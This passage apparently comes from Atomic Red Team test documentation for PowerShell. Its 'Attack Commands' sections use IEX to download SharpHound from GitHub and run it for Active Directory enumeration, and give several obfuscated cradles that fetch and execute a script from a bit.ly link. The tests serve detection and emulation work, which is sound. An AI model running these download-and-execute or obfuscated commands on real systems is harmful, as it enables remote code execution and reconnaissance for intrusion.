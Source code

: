 Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a \*BloodHound.zip file.

**Supported Platforms:** Windows

**auto_generated_guid:** bf8c1441-4674-4dab-8e4e-39d93d08f9b7

#### Attack Commands: Run with `powershell`!

```powershell
write-host "Remote download of SharpHound.ps1 into memory, followed by execution of the script" -ForegroundColor Cyan
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1');
Invoke-BloodHound -OutputDirectory $env:Temp
Start-Sleep 5
```

#### Cleanup Commands:

```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```

<br/>
<br/>

## Atomic Test #4 - Obfuscation Tests

Different obfuscated methods to test. Upon execution, reaches out to bit.ly/L3g1t and displays: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

**Supported Platforms:** Windows

**auto_generated_guid:** 4297c41a-8168-4138-972d-01f3ee92c804

#### Attack Commands: Run with `powershell`!

```powershell
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()
Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))
```

<br/>
<br/>
